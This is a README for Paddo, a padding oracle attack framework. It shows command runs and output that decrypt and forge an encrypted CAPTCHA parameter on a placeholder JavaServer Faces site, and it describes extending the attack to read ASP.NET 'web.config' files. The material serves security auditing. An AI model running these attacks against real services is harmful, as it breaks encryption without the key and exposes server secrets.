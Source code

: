 Paddo
=====
Framework for auditing and conducting padding oracle attacks.

Audit and attack the underlying cryptography in CBC encrypted blocks for decrypting them or re-encrypting any plaintext without knowing the secret key. An "oracle" is when a service or machine receives a ciphertext, decrypts it and then replies to the sender whether the padding is correct or not. At Eurocrypt 2002, Vaudenay introduced a powerful side-channel attack against CBC-mode encryption with PKCS#5. This framework currently attacks Java Server Faces vulnerable versions and allows to extend current methods for beeing used in customized web applications.

For example:

http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO

Here the ciphertext is: OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO (Which is the real value of the "security word" but encrypted)

lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord
[+] Detecting a Padding Oracle in parameter: securityWord
[+] Encoding Detected: base64
[+] Blocksize Detected: 8 bytes
[!] Sending our first block nulled payload
[!] JSF vulnerable to a Padding Oracle attack
[+] Decrypting block #: 2
[+] Original Block: f5840d9c7c69e614
[+] IV: 39d5dd57ff7ac81b
[+] Padding !
[!] Invalid Padding: 0000000000000000
[...]
[!] Valid Padding: bbd452917164eb19 5b0f858162db108e
[!] Intermediate Block: b3dc5a99796ce311
[*] Block decrypted: 4658570505050505
[!] Plaintext: 05190,ZRFXW

We successfully decrypted our ciphertext !

Paddo attemps to decrypt valid ciphertext on a service which acts as an "oracle". Obviously this service must know the key of the ciphertext since is the one who will check for proper padding after decrypting it due to PKCS#5.

Also paddo supports re-encryption (CBC-R), that is encrypting a custom plaintext with the server key without really knowing it. 

For example encrypting a "LUCAS" with paddo:

lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord --encrypt 05555,LUCAS
[...]
[*] Encrypting: 05555,LUCAS
[...]
[!] Valid Padding: 65b4cdb2be1e37d8 2b5c874bd1c94191
[!] Intermediate Block: 6dbcc5bab6163fd0
[*] Block decrypted: 6dbcc5bab6163fd0
[!] Ciphertext: XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

If the Cookie image is feed by the securityWord parameter, we will see the word LUCAS in the CAPTCHA.

http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

This is the core of http://technet.microsoft.com/en-us/security/bulletin/MS10-070.

Briefly, you can encrypt a "web.config" string with the server secret key, and then feed the WebResource.axd script for fetching the content of that file. Currently paddo only attacks Java Server Faces, but it may be extended to also support ASP.NET since the attack is very similar.
